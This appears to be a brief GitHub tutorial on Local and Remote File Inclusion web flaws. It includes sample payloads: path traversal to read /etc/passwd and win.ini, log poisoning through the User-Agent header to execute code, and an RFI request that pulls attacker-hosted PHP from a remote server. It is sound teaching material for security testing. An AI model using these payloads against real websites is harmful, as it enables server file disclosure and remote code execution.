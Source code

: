 LFI
===

Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. 
This vulnerability exists when a web application includes a file without correctly sanitising the input, 
allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server.

<h3>Identification & EXPLOITATION</h3>

LFI vulnerabilities are easy to identify and exploit. Any script that includes a file from a web server is a good candidate for further LFI testing, 
For example:

               /script.php?page=/windows/win.ini
     
Internally we check log file in "/xampp/apache/logs/access.log "
we will find the user contrallable data in the present activity,then paste the code in user contralable field such as "USER AGENT:"
in the last paste the path of access.log in web browser and in result the code will be executed.

<h3>In linux</h3>
A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, 
such as:

           /script.php?page=../../../../../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system.

RFI
===
A remote file inclusion (RFI) occurs when a file from a remote web server is inserted into a web page. 
This can be done on purpose to display content from a remote web application. 

<h3>Identification & Exploitation</h3>

1.Go to your target website and find any parameter that loads the content of any remote websites
for eg. url, page, file etc. (Use Spider option of burp for finding parameters)

2.suppose we find vulnerbaility in "page" parameter

For example:

     /script.php?page=http://www.webhosted.com/b0x.txt 


Note:- If we find any problem or application not allow to fetch data then we will ecxploit it in burp suite
and can fetch the data from the remote URL.

if we are appending php code in the b0x file then we have to save it as .txt file on the internet based server.
This is how we can exxploit RFI.




THANKS
ROHIT TANWAR






